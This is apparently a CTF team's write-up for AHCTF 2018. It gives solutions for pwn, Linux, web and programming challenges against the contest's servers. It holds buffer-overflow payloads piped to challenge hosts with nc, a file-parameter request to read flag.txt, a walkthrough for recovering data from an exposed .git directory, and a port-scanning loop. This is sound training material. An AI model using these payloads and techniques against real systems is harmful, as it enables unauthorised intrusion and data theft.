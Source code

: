 CTF : AHCTF 
LINK: https://www.ahctf.com
AUTHORS: Abraham Adberstein and Abraham Fong 
DATE: Feb 1-7, 2018

----------

**PWN1-EGYPT**
Since the gets function does not check the number of bytes it assigns to buffer, we can overflow the stack.
pwn1.zip 
**Stack**
| buffer 64 bytes |  ret 4 bytes |

    $ { python -c 'print "a"*64 + "\xef\xbe\xad\xde"'; cat; } | nc 54.186.65.159 10001

**PWN2-UZBEKISTAN**
I bet you can't redirect the code flow of this program.
pwn2.zip
**Solution**
If you take a look at the code of pwn2_client, you can use objdump to find the address of the function print_flag function. Since the gets function does not check the number of bytes it assigns to buffer, we can overflow the stack. Then what we want to do is override the return address of the main function. 
**Stack**
| buffer 64 bytes | argc  4 bytes | argv 8 bytes | ret 4 bytes |

    $ objdump -d pwn2_client
    $ { python -c 'print "a"*76 + "\x9d\x84\x04\x08"'; cat; } | nc 54.186.65.159 10002

**LINUX-FOREST-SPAIN**
Have you ever heard of the question: "Where does a wise man hide a leaf?"
**Solution**
There is a folder "data" in the current directory. Inside the "data" directory, there hundres of directories where those directories contains text files with base64 encoded strings. First we get folders with the following name patter "\*.txt" and pass the those folder paths to cat, then we use args again to get each line of those files and decode them. Lastly, we grep the flag. 

     $ find -name "*.txt" | xargs -I f cat f | xargs -I % echo "%" | base64 --decode | grep AHCTF

**LINUX3-CHINA**
I'm pretty sure someone is trying to talk to us on port 10001, but I don't think we can [hear] connect to him from the outside.
**Solution**
We just needed to listen to several ports and listen for incoming data from inside the server.
**Solution**

    import socket
    for port in range(23200,23300):
        try:
            s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
                s.connect((hostname,port))
                print s.recv(1024)
            s.close()
        except:
            continue

**WEB4-RUSSIA**
I'm trusting you with my system, please don't use this file to cheat...
Access the challenge at: http://34.216.168.66:8080/dir.php
The flag will be at http://34.216.168.66:8080/flag.txt
**Solution:**
Since the hint was hinting that dir.php was doing something, we passed a common name parameter to see if it did something. 

    http://34.216.168.66:8080/dir.php?file=flag.txt

**WEB6-MOZAMBIQUE**
This is my blog, but you won't find the flag there. I removed it before the last commit.

    http://52.26.43.30/blog

Hint suggests that we need to access past commit data to find a flag. 
Git repository content is written in objects. All of them are stored in .git/objects folder.  First tested to see if it was available by appending /.git after /blog. 
This returned a page with file structure instead of a 404 error, so far so good. 
    http://52.26.43.30/blog/.git 

Git objects can be one of three types: commit, tree and blob.

 - Commit is an information about commit, with current tree (folders and
   files structure) object hash.
 - Tree contains information about folders and files structure - and
   every single folder or file has its own object hash stored in tree
   object. It might be another tree (folder which is one level down
   in the folders structure) or file.
 - Blob is Git object type where files content are saved. In other
   way - if you know an object hash of the particular file, you can
   read content of this file using git cat-file command.

After finding the .git file, we navigate to logs/HEAD file to see history of commits. 
     http://52.26.43.30/blog/.git/logs/HEAD
Here we find two interesting commits with incriminating titles. 
The commit titled *'add flag*' has a hash of `c4db23b282baa2ce1b650dd820f7de00ee82b654` 
where the first 2 chars are the file, and the rest is the name. 
if we navigate to objects/c4/db23blablablabla, we will find ourselves with a file we can download! 

Since we are dealing with git commits, we need to create a dummy Git folder.
In the terminal: 

    $ git init

This will initialize empty Git repository with all required files and folders.
We have to save the downloaded file in your dummy Git folder we created. It is imperative to be sure that you saved it in exactly the same location:

path-to-dummy-git-repository/.git/objects/c4/db23b282baa2ce1b650dd820f7de00ee82b654


These two commands will be used to dig for our key: 
To check the type of object, you can use following command:
$ git cat-file -t c4db23b282baa2ce1b650dd820f7de00ee82b654

To display the content of the object, use this command:
$ git cat-file -p c4db23b282baa2ce1b650dd820f7de00ee82b654

We use these commands to check and read the type of the object. When we look at commit descriptions , we can find information about the actual tree object hash. Remember, the tree contains information about current folder structure. So using the same method (check type and then display content),  we check the tree object we find. 

Once we dig down the tree, eventually we find only one file, index.php and we know it's object hash and type, which is blob! (Remember, a blob  Git object type where files content are saved.)


Once more, git cat file, and you will reveal the contents, which is HTML code. Near the top of the header, we find the Key. :) 


----------


----------


----------


**PROG3-HASHES**
**Solution**
We connect to the server, get the string and strip the value desired to hash. Then, we hash and send it to the server. We loop through this process 100 times to get the flag. 

    import socket       
    import hashlib 
    from time import sleep
    import re
      
    host = "54.186.65.159"  
    port = 20005                
    s = socket.socket()  
    
    while True:
        r =  s.recv(1048)
        print r
        if ":" in r:
                string = r.split(':')[1].replace('\n', '').strip()
                hash = hashlib.sha512()
                hash.update(string)
                result = hash.hexdigest() + "\n"
                s.send(result)
        elif r == "":
                break


**PROG4-MATHBOT**
More hashes incoming. Your hands fast enough?
**Solution**
We connect to the server, use a bit of regex to get the number to sum and send it to the server. We loop through this process 100 times to get the flag.

    import socket       
    import hashlib 
    from time import sleep
    import re
      
    host = "54.186.65.159" 
    port = 20005               
    s = socket.socket()              
    s.connect((host, port))
    
    while True: 
            #receive connection
            r =  s.recv(1048) 
            print r
            if "+" in r: 
                    result = re.match( r'.*\s*What\sis\s(.*)\s\+\s(.*)', r, re.M|re.I)
                    suma = int(result.group(1)) + int(result.group(2))
                    msg = str(suma) + "\n"
                    s.send(msg)
            elif r == "":
                    break





<!--stackedit_data:
eyJoaXN0b3J5IjpbLTQ5MTk1NTU3MSwtMzIzODMwMTQ3LC0yMT
A2MDU4MTczLC0zMjM4MzAxNDcsLTIxMDYwNTgxNzMsLTMyMzgz
MDE0NywtMjEwNjA1ODE3MywtODY2MTMzNjM4XX0=
-->
